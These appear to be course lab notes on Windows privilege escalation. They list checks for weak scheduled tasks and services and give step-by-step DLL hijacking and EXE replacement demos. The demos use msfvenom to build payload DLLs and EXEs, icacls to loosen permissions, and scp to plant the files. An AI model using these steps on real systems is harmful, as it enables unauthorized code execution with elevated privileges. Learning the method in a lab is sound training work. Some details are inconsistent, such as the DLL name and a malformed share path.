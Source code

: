 ### Windows
#### Scheduled Tasks and Services
* Write Permissions
* Non-Standard Locactions
* Unquoted Executable Paths
* Vulnerabilities in Executables
* Permissions to Run as `SYSTEM`
#### DEMO: Finding vulnerable Scheduled Tasks
schtasks /query /fo LIST /v

##### DLL Stuff
* Can you rename the file?
* Can you write to the directory?
* Go to procmon:
  - filter by process name "Name of Process"
  - Filter result contains "NAME NOT FOUND"
  - filter path contains ".dll"
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll`
  - SCP the file over to the windows station
#### EXE Replacement
* Can you rename the file?
* Can you write to the directory?
* MSFVENOM
  - `msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f exe > putty.exe`
* Drag and drop the payload
```
auditpol /get /category:*
auditpol /get /category:* | findstr /i "success failure"
```
#### Important Microsoft Event IDs
* 4624/4625 - Successful/failed login
* 4720 - Account created
* 4672 - Adminstrative User logged on
* 7045 - Service Created

# checking UAC settings
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
./sigcheck.exe -m -accepteula 

## DLL hijacking method demo    use when youre on a target machine 
1. create a task called "putty.exe"
2. icacls "C:\program files (x86)\putty" /grant BUILTIN\users:W
3. net use Z: "\\http://live.sysinternals.com" /persistent:yes
4. Z:\>   ./procmon.exe -accepteula
    once opened look for process name contains putty.exe
    then path contains dll
    then result is NAME NOT FOUND
5. if nothing populates then run in ps : (get-process | ?{$_.name -like "putty"}).kill() and restart process 
5a. if something is found find a dll like in this demo SSPIC.DLL
then you do:
6. on linops**    msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\users\student\desktop\whoami.txt' -f dll > SSPICLI.dll
7. on ps:
    scp student@<linops>:/path/payload/inside/WinPRivEsc/SSPICLI.dll "C:\program files (x86)\putty\SSPICLI.dll"
